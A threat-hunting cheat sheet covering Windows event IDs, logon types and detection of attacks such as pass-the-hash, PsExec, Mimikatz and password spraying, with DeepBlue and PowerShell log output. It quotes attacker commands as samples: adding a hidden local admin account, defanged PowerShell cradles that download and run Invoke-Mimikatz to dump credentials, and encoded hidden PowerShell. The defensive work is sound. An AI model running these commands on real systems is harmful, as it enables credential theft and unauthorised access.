



# THP Cheat Sheet Event IDs, Logging, and SIEMs

# Windows Event Logs

All Version of Windows maintain 3 core event logs:
- Application
    - The application log contains events logged by applications or programs
    - Program developers decide which events to log
    - For example, a database program might record a file error in the application log
- System
    - The system log contains events logged by Windows system components
    - For example, the failure of a driver or other system component to load during startup is recorded in the system log
    - The event types logged by system components are predetermined by Windows
- Security
    - The security log contains events such as valid and invalid logon  attempts, as well as events related to resource use, such as creating, opening, or deleting files or other objects
    - Administrators can specify what events are recorded in the security log
    - For example, if you have enabled logon auditing, attempts to log on to the system are recorded in the security log

## Windows XP, Windows 2003, and any prior versions of Windows

|    Event Logs      |      Event Log Path                                |
|------------------------|--------------------------------------------------------|
|    Application     |    %SYSTEMROOT%\System32\Config\AppEvent.evt       |
|    System          |    %SYSTEMROOT%\System32\Config\SysEvent.evt       |
|    Security        |    %SYSTEMROOT%\System32\Config\SecEvent.evt       |

## Latest Windows version (XML based)
|    Event Log      |     Event Log Path                                           |
|-----------------------|------------------------------------------------------------------|
|    Application    |     %SYSTEMROOT%\System32\Winevt\Logs\Application.evtx       |
|    System         |    %SYSTEMROOT%\System32\Winevt\Logs\System.evtx             |
|    Security       |    %SYSTEMROOT%\System32\Winevt\Logs\Security.evtx           |

## EVT & EVTX Comparison
From Windows XP Old Event ID, add 4096 to convert it to Win 7/8/10 Event ID

| Windows XP Old | Windows 7/8/10 | Description                                 |
|----------------|----------------|---------------------------------------------|
| 528            | 4624           | Successful Login                            |
| 529            | 4625           | Failed Login Attempt                        |
| 680            | 4776           | Successful Account Authentication           |
| 624            | 4720           | Creating of a new user                      |
| 636            | 4732           | A member has been added to a local group    |
| 632            | 4728           | Membership has been added to a global group |
| 2949           | 7045           | Service Creation                            |


## Event Viewer
You can access the Event Viewer by either double clicking the evtx file directly, by typing *eventvwr* in the Search box, or by navigating to:
```
 Control Panel > Administrative Tools > Event Viewer
```

# Windows Event IDs

## Hunting Suspicious Accounts

### Event IDs specific to account logon events
- 4624 (successful logon) 
- 4625 (failed logon) 
- 4634 (successful logoff) 
- 4647 (user-initiated logoff) 
- 4648 (logon using explicit credentials) 
- 4672 (special privileges assigned) 
- 4768 (Kerberos ticket (TGT) requested) 
- 4769 (Kerberos service ticket requested) 
- 4771 (Kerberos pre-auth failed) 
- 4776 (attempted to validate credentials) 
- 4778 (session reconnected) 
- 4779 (session disconnected)

### Event IDs specific to account management: 
- 4720 (account created) 
- 4722 (account enabled) 
- 4724 (attempt to reset password) 
- 4728 (user added to global group) 
- 4732 (user added to local group) 
- 4756 (user added to universal group)

### Logon Types

|    Logon Type     |    Logon Title           |    Description                                                                                               |
|-----------------------|------------------------------|------------------------------------------------------------------------------------------------------------------|
|    2              |    Interactive           |    A user physically   logged onto this computer                                                             |
|    3              |    Network               |    A user or computer   logged on from the network.                                                          |
|    4              |    Batch                 |    Used by batch   servers where processes may be executing on behalf of a user, like scheduled   tasks.     |
|    5              |    Service               |    A service started   by the Service Control Manager.                                                       |
|    7              |    Unlock                |    The workstation   was unlocked.                                                                           |
|    8              |    NetworkClear text     |    Network   credentials sent in cleartext                                                                   |
|    9              |    NewCredentials        |    A caller cloned   its current token and specified new credentials (runas command).                        |
|    10             |    RemoteInteractive     |    A user logged onto   computer using Terminal Services or RDP.                                             |
|    11             |    CachedInteractive     |    A user logged onto   computer using network credentials which were stored locally on the computer.        |

### Account Creation Using Net Use
- When hunting for suspicious account creation, we can look for Event ID 4720 (Account Created)
- Adversaries with a sufficient level of access may create a local system, domain, or cloud tenant account. 
- The *net user* commands can be used to create a local or domain account

- Real world techniques
- Account will be created via cmd, or PowerShell. Not via GUI!!!
```
net user ncsoc_adm1n1 123456/add
```
- Check if the user was successfully created
```
net user
```
- Once added, the account will immediately being added to administrator group to have a powerful access. 
```
net localgroup administrators ncsoc_adm1n1 /add
```
- Account name normally a common username on the environment to avoid being detected

### Hunting Successful / Failed Logons

**Event ID 4624**
- After creating an account, attackers tends to log in immediately
- Another piece of information to note regarding event IDs specific to accounts is the **Login ID**
- We will know the duration of the session by the timestamps at logon and at logoff by looking at the logged field

### Most Used Logon Types

- (2) Interactive
```
Interactive
Screen Sharing
RunAs
PsExec using -l Option
```
- (3) Network
```
Access or transfer files
Native command line interaction - net.exe
Interact with system services - sc.exe
Remote task scheduler - sctasks.exe / at.exe
Remote PowerShell
Remote WMI - wmic.exe
```
- (7) Unlock
```
Unlock established RDP Sessions
```
- (10) Remote Interactive
```
Remote Desktop Protocol / Terminal Services
```

## Hunting Pass The Hash
We should also look for the Logon Process to be NtLmSsP and the key length to be set to 0
You can read more about this technique, here:
[How to Detect Pass-the-Hash Attacks](https://blog.netwrix.com/2021/11/30/how-to-detect-pass-the-hash-attacks/)

|    ID                  |    Description                               |
|----------------------------|--------------------------------------------------|
|    Event ID 4624       |    An account was successfully logged on     |
|    Logon Type 3        |    network logon                             |


## Hunting Golden Tickets

Oftentimes, attackers leverage native Kerberos functionality. For example, this is the case when a golden ticket is created. A golden ticket is a forged Ticket-Granting Ticket that provides the attacker with access to every network asset. You should therefore be familiar with Kerberos-related Event IDs, like 4768, when hunting for this type of attack. 

- [Event-4768](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4768)
- [Detecting Lateral Movements in Windows Infrastructure](https://cert.europa.eu/static/WhitePapers/CERT-EU_SWP_17-002_Lateral_Movements.pdf)

|    ID              |    Description                                             |
|------------------------|----------------------------------------------------------------|
|    Event ID        |    4768                                                    |
|    Category        |    Account Logon                                           |
|    Sub category    |    Kerberos Authentication Service                         |
|    Description     |    A Kerberos authentication ticket (TGT) was requested    |

## Hunting RDP Sessions
If your network environment is accustomed to a lot of RDP connections into other machines, then this can be difficult to hunt for. When hunting for RDP sessions, we’re looking for Event IDs 4624 & 4778 with Logon Type 10 (Terminal Services or RDP). Also, note the expected Event IDs after successful or failed authentication attempts. 

|    ID              |    Description                                          |
|------------------------|-------------------------------------------------------------|
|    Event IDs 4624  |    Account Logon An account was successfully logged on. |
|    Event IDs 4778  |    Terminal Services or RDP                             |
|    Logon Type 10   |    Terminal Services or RDP                             |

- To hunt for RDP sessions, look for port 3389
- Make sure to know the legitimate RDP applications running in your environment
- RMM Tools - Ghost, Anydesk, TeamViewer, VNC Connect, LogmeIn

## Hunting WMI Persistence
Hunting WMI usage for persistence involves th a WMI subscription. Therefore, our goal is to search identify any newly registered subscriptions. One way to achieve this is by utilizing WMI itself for that activity.

## Hunting Scheduled Tasks
Event ID 4698 (a scheduled task was created) is what we’ll hunt for. Also, Event IDs 106, 200, and 201 all relate to scheduled tasks. Here is an example log entry. 

|    ID              |    Description                                          |
|------------------------|-------------------------------------------------------------|
|    Event IDs 4698  |    (a scheduled task was created) |
|    106             |    generated when a new task is created, but it does not necessarily mean that the task has been executed |
|    200             |    action run - Windows Task Scheduler logs |
|    201             |    action completed - Windows Task Scheduler logs |

Automatically start a process at a certain time, either once or periodically Used by malware for
- Persistence
- Lateral Movement

Configure event logging for scheduled task creation and changes by enabling the *Microsoft-Windows-TaskScheduler/Operational* setting within the event logging service Several events will then be logged on scheduled task activity, including:
- Event ID *106* on Windows 7, Server 2008 R2 - Scheduled task registered
- Event ID *140* on Windows 7, Server 2008 R2 / 4702 on Windows 10, Server 2016 - Scheduled task updated
- Event ID *141* on Windows 7, Server 2008 R2 / 4699 on Windows 10, Server 2016 - Scheduled task deleted
- Event ID *4698* on Windows 10, Server 2016 - Scheduled task created
- Event ID *4699* on Windows 10, Server 2016 - Scheduled task deleted
- Event ID *4700* on Windows 10, Server 2016 - Scheduled task enabled
- Event ID *4701* on Windows 10, Server 2016 - Scheduled task disabled

## Hunting Service Creations

Event ID 4697 (a service was installed in the system) is what we’ll be hunting for to find the creation of suspiciou services.

|    ID              |    Description                                             |
|--------------------|------------------------------------------------------------|
|    Event ID 4697   |   (a service was installed in the system)                  |

## Hunting Network Shares

Event ID 4776 is specific to the NTLM protocol and notifies us of successful or failed authentication attempts. Under Keywords, we should see either Audit Success or Audit Failure. Error Code will also give us information about the authentication attempt. 

|    ID              |    Description                                             |
|--------------------|------------------------------------------------------------|
|    Event ID 4776   |   A domain controller (DC) attempts to validate the credentials of an account using NTLM over Kerberos                  |
  	

Other Event IDs specific to network shares are Event IDs 5140 and 5145. Note: In order to see these event logs, a policy setting mu be enabled. This setting is within the Advanced Audit Policy Configuration > Object Access > Audit File Share.

|    ID              |    Description                                             |
|--------------------|------------------------------------------------------------|
|    Event ID 5140   |   A network share object was accessed |
|    Event ID 5145   |   A Network Share Object Was Checked To See Whether Client Can Be Granted Desired Access. |
	
## Hunting Lateral Movement

Attackers rarely reach the goal data from the first host
- Must pivot through the environment to gather access
- Requires both access to host and program to run
- Host access through exploit, legitimate credentials
- Code access via staging malware locally or on network
Many remote administration protocol choices
- CLI- SSH, SMB w/PSExec, PowerShell Remoting, WMI
- GUI –RDP. VNS, X11 Forwarding

**Detection**
- 4624 Logons
- 4720 Account Creation
- 4776 Local account auth
- 4672 Privileged Account Usage

**Windows Logins: Event ID 4648**
Run as style logins:
- Like *sudo* for Windows
- User X becoming account Y
- Used by attackers for pivoting through network
- Tells you who (*subject*)
- Which account they used
- Where it was used (*Target*)

When hunting for lateral movement, we'll refer to research performed by the Japan Computer Emergency Response Team Coordination Center - the results of the research are available here. 
- [Tool Analysis Result Sheet](https://jpcertcc.github.io/ToolAnalysisResultSheet/)

You can also check out resources from the Threat Hunting Project here, here
- [Windows Lateral Movement via Explicit Credentials](https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/lateral-movement-via-explicit-credentials.md)
- [Detecting Lateral Movement in Windows Event Logs](https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/lateral-movement-windows-authentication-logs.md )
- [Lateral Movement Detection via Process Monitoring](https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/lateral_movement_detection_via_process_monitoring.md) 

## Hunting Password Guessing
|Event|Command|
|-----|-------|
|Password guessing|`.\DeepBlue.ps1 .\evtx\smb-password-guessing-security.evtx`|

### Hunting Password Attacks
Overall, looking for a rapid succession of failed attempts to the same machine, or multiple machines, repeatedly in a small amount of time with each attempt, may indicate Password Spraying/Guessing attack. 

Of course, we know the attacker can change the timing between each attempt to make it look less suspicious. 

|    ID                  |    Description      |
|----------------------------|-------------------------|
|    Event ID 4625       |    failed logon     |
|    Logon Type 3        |    network logon    |

### Hunting Successful / Failed Logons

**Event ID 4625**
- An account failed to log on Windows keeps track of the account log on failed activities under event ID 4625
- Good indicator of brute force attack or password spraying
- Once attacker is performing brute force attack, they tend to get failed logons
- Password Spray is one way to get into the systems using collected dumped credentials such as pastebin, darkweb, paid services, etc
- We also need to look for a rapid succession of failed attempts to the same machine, or machines, repeatedly for a small space of time with each attempt

```
Date    : 9/19/2016 9:50:06 AM
Log     : Security
EventID : 4625
Message : High number of logon failures for one account
Results : Username: Administrator
          Total logon failures: 3560
Command :
Decoded :

Date    : 9/19/2016 9:50:06 AM
Log     : Security
EventID : 4625
Message : High number of total logon failures for multiple accounts
Results : Total accounts: 2
          Total logon failures: 3561

Command :
Decoded :
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\smb-password-guessing-security.evtx"; id=4625} | Measure | Select Count

Count
-----
 3561

TimeCreated  : 9/19/2016 9:52:47 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4625
Message      : An account failed to log on.

               Subject:
                Security ID:            S-1-0-0
                Account Name:           -
                Account Domain:         -
                Logon ID:               0x0

               Logon Type:                      3

               Account For Which Logon Failed:
                Security ID:            S-1-0-0
                Account Name:           Administrator
                Account Domain:         .

               Failure Information:
                Failure Reason:         Unknown user name or bad password.
                Status:                 0xC000006D
                Sub Status:             0xC000006A

               Process Information:
                Caller Process ID:      0x0
                Caller Process Name:    -

               Network Information:
                Workstation Name:       uiBfvnfTcIG4xJoi
                Source Network Address: 192.168.198.149
                Source Port:            52057

               Detailed Authentication Information:
                Logon Process:          NtLmSsp
                Authentication Package: NTLM
                Transited Services:     -
                Package Name (NTLM only):       -
                Key Length:             0
```

## Hunting PSAttack
|Event|Command|
|-----|-------|
|PSAttack|`.\DeepBlue.ps1 .\evtx\psattack-security.evtx`|

Reference:
- (https://any.run/report/0f4fee7c97e529bd25121467a560716806f2832295fa069a185b405acaee7862/e9eff4d4-98c6-47ad-a8ba-ff6051a63949)
- (https://www.hybrid-analysis.com/sample/8ade41a6c8af18fde1c390d67d7902acaedc5b94cd12718a214560c4239e2bc7/5a3023a37ca3e10e13006a03)

```
Date    : 9/20/2016 11:41:27 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Resource File To COFF Object Conversion Utility cvtres.exe
          PSAttack-style command via cvtres.exe

Command : C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\IEUser\AppData\Local\Temp\RES3874.tmp"
          "c:\Users\IEUser\AppData\Local\Temp\CSC14C61BA389694F5FAB6FBD8E9CFA7CEF.TMP"
Decoded :

Date    : 9/20/2016 11:41:27 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Use of C Sharp compiler csc.exe
          PSAttack-style command via csc.exe

Command : "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\IEUser\AppData\Local\Temp\kwos13rh.cmdline"
Decoded :

Date    : 9/20/2016 11:33:13 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Resource File To COFF Object Conversion Utility cvtres.exe
          PSAttack-style command via cvtres.exe

Command : C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\IEUser\AppData\Local\Temp\RESB25D.tmp"
          "c:\Users\IEUser\AppData\Local\Temp\CSCAE981B6C775D478784A2D2A90379D51.TMP"
Decoded :

Date    : 9/20/2016 11:33:13 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Use of C Sharp compiler csc.exe
          PSAttack-style command via csc.exe

Command : "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\IEUser\AppData\Local\Temp\0xqpayvt.cmdline"
Decoded :

Date    : 9/20/2016 11:28:58 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Resource File To COFF Object Conversion Utility cvtres.exe
          PSAttack-style command via cvtres.exe

Command : C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\IEUser\AppData\Local\Temp\RESCB96.tmp"
          "c:\Users\IEUser\AppData\Local\Temp\CSCDD7CF7985DD64D48B389AD7A587C926D.TMP"
Decoded :

Date    : 9/20/2016 11:28:58 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Use of C Sharp compiler csc.exe
          PSAttack-style command via csc.exe

Command : "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\IEUser\AppData\Local\Temp\wlqywrdm.cmdline"
Decoded :

Date    : 9/20/2016 11:27:45 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Resource File To COFF Object Conversion Utility cvtres.exe
          PSAttack-style command via cvtres.exe

Command : C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\IEUser\AppData\Local\Temp\RESADB2.tmp"
          "c:\Users\IEUser\AppData\Local\Temp\CSC4EC78419D61349E285CD9DBCB3C7409.TMP"
Decoded :

Date    : 9/20/2016 11:27:44 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Use of C Sharp compiler csc.exe
          PSAttack-style command via csc.exe

Command : "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\IEUser\AppData\Local\Temp\g4g34pot.cmdline"
Decoded :
```

## Hunting Password Spraying

|Event|Command|
|-----|-------|
|Password spraying|`.\DeepBlue.ps1 .\evtx\password-spray.evtx`|

```
Date    : 4/30/2019 12:27:40 PM
Log     : Security
EventID : 4648
Message : Distributed Account Explicit Credential Use (Password Spray Attack)
Results : The use of multiple user account access attempts with explicit credentials is an indicator of a password
          spray attack.
          Target Usernames: gsalinas cdavis lpesce Administrator melliott dpendolino cragoso baker cmoody rbowes
          jkulikowski jleytevidal tbennett zmathis bgreenwood cspizor wstrzelec drook dmashburn sanson cfleener celgee
          bhostetler eskoudis kperryman mtoussain thessman bgalbraith ssims psmith jorchilles smisenar bking mdouglas
          jlake jwright econrad edygert lschifano sarmstrong ebooth
          Accessing Username: jwrig
          Accessing Host Name: DESKTOP-JR78RLP

Command :
Decoded :

Date    : 4/30/2019 12:27:00 PM
Log     : Security
EventID : 1102
Message : Audit Log Clear
Results : The Audit log was cleared.
          Account Name: jwrig
Command :
Decoded :
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\password-spray.ev
tx"; id=4648} | ForEach-Object {($_.Message -split "`n" | Where-Object {$_ -match "^\s+Account Name:\s+(.+)"}).Trim() -r
eplace "^\s+Account Name:\s+", ""} | Group-Object | Select Name, Count

Name                         Count
----                         -----
Account Name:           jwrig           294
Account Name:           smisenar         14
Account Name:           ssims             7
Account Name:           baker             7
Account Name:           bgreenwood        7
Account Name:           mdouglas          7
Account Name:           bking             7
Account Name:           bgalbraith        7
Account Name:           cragoso           7
Account Name:           cspizor           7
Account Name:           dmashburn         7
Account Name:           drook             7
Account Name:           edygert           7
Account Name:           jlake             7
Account Name:           jorchilles        7
Account Name:           kperryman         7
Account Name:           melliott          7
Account Name:           zmathis           7
Account Name:           wstrzelec         7
Account Name:           sarmstrong        7
Account Name:           sanson            7
Account Name:           lpesce            7
Account Name:           jleytevidal       7
Account Name:           econrad           7
Account Name:           tbennett          7
Account Name:           gsalinas          7
Account Name:           jkulikowski       7
Account Name:           psmith            7
Account Name:           cmoody            7
Account Name:           cfleener          7
Account Name:           ebooth            7
Account Name:           rbowes            7
Account Name:           bhostetler        7
Account Name:           lschifano         7
Account Name:           mtoussain         7
Account Name:           cdavis            7
Account Name:           eskoudis          7
Account Name:           thessman          7
Account Name:           celgee            7
Account Name:           dpendolino        7
Account Name:           jwright           7
Account Name:           Administrator     7
```

## Hunting PowerSploit (Security/System)
|Event|Command|
|-----|-------|
|PowerSploit (security)|`.\DeepBlue.ps1 .\evtx\powersploit-security.evtx`|
|PowerSploit (system)|`.\DeepBlue.ps1 .\evtx\powersploit-system.evtx`|

```
Date    : 9/20/2016 11:45:48 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Download via Net.WebClient DownloadString
          Command referencing Mimikatz

Command : powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hXXp://eic[.]me/17'); Invoke-Mimikatz -DumpCreds"
Decoded :

Date    : 9/20/2016 11:45:24 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Download via Net.WebClient DownloadString
          Command referencing Mimikatz
          PowerSploit Invoke-Mimikatz.ps1
          Use of PowerSploit

Command : powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hxxps://raw[.]githubusercontent[.]com/mattifestat
          ion/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
=================================================================================
Date    : 9/20/2016 12:19:26 PM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Long Command Line: greater than 1000 bytes
          500+ consecutive Base64 characters
          Base64 encoded and hidden PowerShell command
          Base64-encoded function
          Download via Net.WebClient DownloadString
          User-Agent set via command line

Command : powershell.exe  -NoP -sta -NonI -W Hidden -Enc JABXAGMAPQBOAGUA...EIALQBqAG8AaQBOACcAJwApAA==
Decoded : $Wc=New-OBJECT ...

Date    : 9/20/2016 12:15:54 PM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Long Command Line: greater than 1000 bytes
          500+ consecutive Base64 characters
          Base64 encoded and hidden PowerShell command
          Base64-encoded function
          Download via Net.WebClient DownloadString
          User-Agent set via command line

Command : powershell.exe  -NoP -sta -NonI -W Hidden -Enc WwBTAFk...BPAEkATgAnACcAKQA=
Decoded : [SYStEm.NET.SErvICePoiNTMANaGEr]::...

```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\powersploit-security.evtx",".\evtx\powersploit-system.evtx"; id=4688} | 
    Where-Object { $_.Message -ilike "*powershell*" } |
    Select-Object -ExpandProperty Message

Subject:
        Security ID:            S-1-5-21-3463664321-2923530833-3546627382-1000
        Account Name:           IEUser
        Account Domain:         IE10WIN7
        Logon ID:               0x6793C

Process Information:
        New Process ID:         0x11c
        New Process Name:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Token Elevation Type:   TokenElevationTypeFull (2)
        Creator Process ID:     0x98c
        Process Command Line:   powershell.exe  -NoP -sta -NonI -W Hidden -Enc JABXAGM..aQBOACcAJwApAA==

A new process has been created.

Subject:
        Security ID:            S-1-5-21-3463664321-2923530833-3546627382-1000
        Account Name:           IEUser
        Account Domain:         IE10WIN7
        Logon ID:               0x6793C

Process Information:
        New Process ID:         0x700
        New Process Name:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Token Elevation Type:   TokenElevationTypeFull (2)
        Creator Process ID:     0xf14
        Process Command Line:   powershell.exe  "IEX (New-Object Net.WebClient).DownloadString('hxxp://eic[.]me/17'); Invoke-Mimikatz -DumpCreds"
```

## Hunting Mimikatz `lsadump::sam`

|Event|Command|
|-----|-------|
|Mimikatz `lsadump::sam`|`.\DeepBlue.ps1 .\evtx\mimikatz-privesc-hashdump.evtx`|

```
Date    : 4/30/2019 11:08:29 AM
Log     : Security
EventID : 4673
Message : Sensititive Privilege Use Exceeds Threshold
Results : Potentially indicative of Mimikatz, multiple sensitive privilege calls have been made.
          Username: Sec504
          Domain Name: SEC504STUDENT
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\powersploit-security.evtx",".\evtx\mimikatz-privesc-hashdump.evtx"; id=4673} | fl

TimeCreated  : 4/30/2019 11:08:29 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4673
Message      : A privileged service was called.

               Subject:
                Security ID:            S-1-5-21-2977773840-2930198165-1551093962-1000
                Account Name:           Sec504
                Account Domain:         SEC504STUDENT
                Logon ID:               0x1E3DD

               Service:
                Server: Security
                Service Name:   -

               Process:
                Process ID:     0x15a8
                Process Name:   C:\Tools\mimikatz\mimikatz.exe

               Service Request Information:
                Privileges:             SeTcbPrivilege
```

## Hunting PsExec

PsExec, part of the SysInternals Suite, is one of the common lateral movement tools, which provides the capability to execute remote commands. Due to the way that PsExec works, we can utilize the following Event IDs to hunt for it:

|    ID                   |    Description                                             |
|-----------------------------|----------------------------------------------------------------|
|    Event ID 5145        |    (captures requests to shares, we are interested in ADMIN$ and IPC$) |
|    Event ID 5140        |    (share successfully accessed)                                       |
|    Event ID 4697 / 7045 |    (service creation)                                                  |
|    Event ID 4688        |    Sysmon EID 1                                                        |

**Sample Use Cases / Rules**

PsExec Service Start
```
(EventID:"4688" AND CommandLine:"C\:\\Windows\\PSEXESVC.exe")
```
PsExec Tool Execution
```
(EventID:"7045" AND ServiceName:"PSEXESVC" AND ServiceFileName:"*\\PSEXESVC.exe") OR (EventID:"7036" AND ServiceName:"PSEXESVC") OR (EventID:"1" AND Image:"*\\PSEXESVC.exe" AND User:"NT AUTHORITY\\SYSTEM")
```

### Alternative to PsExec
[RemCom](https://github.com/kavika13/RemCom)
- RemCom is an open-source, redistributable utility providing the same remote management functions

[PAExec](https://github.com/poweradminllc/PAExec)
- PAExec features all the same functions of RemCom and PsExec by default, PAExec
uses a named pipe containing the string PAExec combined with a unique process 
identifier and computer name values


[CSExec](https://github.com/malcomvetter/CSExec)
- CSExec is a highly configurable, C# implementation of PsExec’s functionality. By 
default, CSExec sends csexecsvc.exe to the remote computer and uses a named pipe 
called \\.\pipe\csexecsvc


## Hunting Metasploit (PsExec) Native Target (Security)
|Event|Command|
|-----|-------|
|Metasploit native target (security)|`.\DeepBlue.ps1 .\evtx\metasploit-psexec-native-target-security.evtx`|

With process monitoring, hunt for processes matching these criteria:

- parent process is services.exe
- process name is cmd.exe
- command line includes echo AND \pipe\


```
Date    : 9/20/2016 8:41:13 PM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Metasploit-style cmd with pipe (possible use of Meterpreter 'getsystem')

Command : cmd.exe /c echo hgabms > \\.\pipe\hgabms
Decoded :
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\metasploit-psexec-native-target-security.evtx"; id=4688} | fl


TimeCreated  : 9/20/2016 8:41:13 PM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4688
Message      : A new process has been created.

               Subject:
                Security ID:            S-1-5-18
                Account Name:           IE10WIN7$
                Account Domain:         WORKGROUP
                Logon ID:               0x3E7

               Process Information:
                New Process ID:         0x694
                New Process Name:       C:\Windows\System32\cmd.exe
                Token Elevation Type:   TokenElevationTypeDefault (1)
                Creator Process ID:     0x1e8
                Process Command Line:   cmd.exe /c echo hgabms > \\.\pipe\hgabms
```
## Hunting Metasploit (PsExec) Native Target (System)
|Event|Command|
|-----|-------|
|Metasploit native target (system)|`.\DeepBlue.ps1 .\evtx\metasploit-psexec-native-target-system.evtx`|

Reference:
- [Hunting for GetSystem in offensive security tools](https://redcanary.com/blog/getsystem-offsec/)

With Windows Event Logs, search for events with the ID 7045 that match these criteria:

- ServiceFileName contains cmd.exe OR %COMSPEC%
- ServiceFileName contains echo AND \pipe\

```
Date    : 9/20/2016 8:41:13 PM
Log     : System
EventID : 7045
Message : Suspicious Service Command
Results : Service name: hgabms
          Metasploit-style cmd with pipe (possible use of Meterpreter 'getsystem')

Command : cmd.exe /c echo hgabms > \\.\pipe\hgabms
Decoded :

Date    : 9/20/2016 8:41:02 PM
Log     : System
EventID : 7036
Message : Suspicious Service Name
Results : Service name: KgXItsbKgTJzdzwl
          Metasploit-style service name: 16 characters

Command :
Decoded :

Date    : 9/20/2016 8:41:02 PM
Log     : System
EventID : 7045
Message : New Service Created
Results : Service name: KgXItsbKgTJzdzwl
          Metasploit-style service name: 16 characters

Date    : 9/20/2016 8:41:02 PM
Log     : System
EventID : 7045
Message : New Service Created
Results : Service name: KgXItsbKgTJzdzwl
          Metasploit-style service name: 16 characters

Command : %SYSTEMROOT%\duKhLYUX.exe
Decoded :

Date    : 9/20/2016 8:41:02 PM
Log     : System
EventID : 7045
Message : Suspicious Service Command
Results : Service name: KgXItsbKgTJzdzwl
```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\metasploit-psexec-native-target-system.evtx"; id=7045,7036} | fl


TimeCreated  : 9/20/2016 8:41:13 PM
ProviderName : Service Control Manager
Id           : 7045
Message      : A service was installed in the system.

               Service Name:  hgabms
               Service File Name:  cmd.exe /c echo hgabms > \\.\pipe\hgabms
               Service Type:  user mode service
               Service Start Type:  demand start
               Service Account:  LocalSystem

TimeCreated  : 9/20/2016 8:41:03 PM
ProviderName : Service Control Manager
Id           : 7036
Message      : The Application Experience service entered the running state.

TimeCreated  : 9/20/2016 8:41:02 PM
ProviderName : Service Control Manager
Id           : 7036
Message      : The KgXItsbKgTJzdzwl service entered the stopped state.

TimeCreated  : 9/20/2016 8:41:02 PM
ProviderName : Service Control Manager
Id           : 7036
Message      : The KgXItsbKgTJzdzwl service entered the running state.

TimeCreated  : 9/20/2016 8:41:02 PM
